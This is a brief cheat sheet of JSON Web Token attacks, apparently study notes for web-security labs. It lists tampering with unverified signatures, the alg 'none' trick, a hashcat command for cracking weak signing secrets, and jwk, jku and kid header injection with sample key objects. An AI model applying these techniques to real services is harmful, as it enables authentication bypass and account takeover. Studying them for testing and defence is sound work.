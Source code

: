 ### A JWT consists of 3 parts: a header, a payload, and a signature.

## unverified signature
```
jwt -> tamper
```

## none signature attack
```
jwr -> tamper -> change header alg to none
```

## weak secret key
```
jwt -> hashcat -a 0 -m 16500 <YOUR-JWT> <wordlist>
```

## jws injection via jwk
```
jwt -> New RSA Key (JWT Editor Keys) -> add new key to header (jwk)

{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```

## jws injection via jku
```
jwt -> New RSA Key (JWT Editor Keys) -> add kju param (url)

example object:
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}
```

## jws injection via kid
```
jwt -> New Symmetric Key (JWT Editor Keys) -> replace k for Base64-encoded null byte (AA==) -> change kid param to /dev/null -> sign
```
